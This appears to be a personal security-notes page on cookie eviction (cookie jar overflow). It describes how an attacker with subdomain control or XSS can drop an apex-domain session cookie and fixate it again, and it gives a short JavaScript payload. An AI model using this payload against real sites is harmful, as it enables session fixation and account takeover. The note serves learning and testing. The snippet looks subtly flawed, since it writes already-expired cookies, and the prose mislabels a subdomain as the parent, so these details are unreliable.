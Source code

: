 # Cookie Eviction (Cookie Jar Overflow)

>[!info]
>If an **attacker can control a subdomain** or the apex domain of a company or finds an [XSS](Cross-Site%20Scripting%20(XSS).md) in a subdomain he will be able to perform this attacks.

Cookie Eviction allow an attacker to drop some cookies stored within the Cookie Jar.

Cookie Jar has a limit specific to an entire site, not an origin:
- 0xbro.red can have around 180 cookies
- test.0xbro.red can have **other** 180 cookies

From a parent domain (test.0xbro.red), I can perform this attack to drop a specific cookie (also having protection on it) on the apex domain (0xbro.red), and then fixate it again using [Cookie Tossing](Cookie%20Tossing.md) or [Cookie Fixation](Header%20Fixation.md):

```js title:foo
document.cookie // session=legitimate; domain=0xbro.red; Secure; HttpOnly

// Remove all cookies
for (let i = 0; i < 700; i++) {
    document.cookie = `x${i}=_;expires=Thu, 01 Jan 1970 00:00:01 GMT`; // those cookies are bounded to the origin (test.0xbro.red)
}

// Fixate cookie 
document.cookie = "session=fixate; domain=0xbro.red";
```

![](attachments/Cookie-Eviction-1.png)

# External refences
- [Cookie Tossing](https://book.hacktricks.xyz/pentesting-web/hacking-with-cookies/cookie-tossing), HackTricks
- [BH23 Cookie Crumbles Slides](https://minimalblue.com/data/papers/BHUSA23_cookie_crumbles-slides.pdf), Marco Squarcina
- [USENIX23 Cookie Crumbles Slides](https://www.usenix.org/system/files/sec23_slides_squarcina-marco.pdf), Marco Squarcina
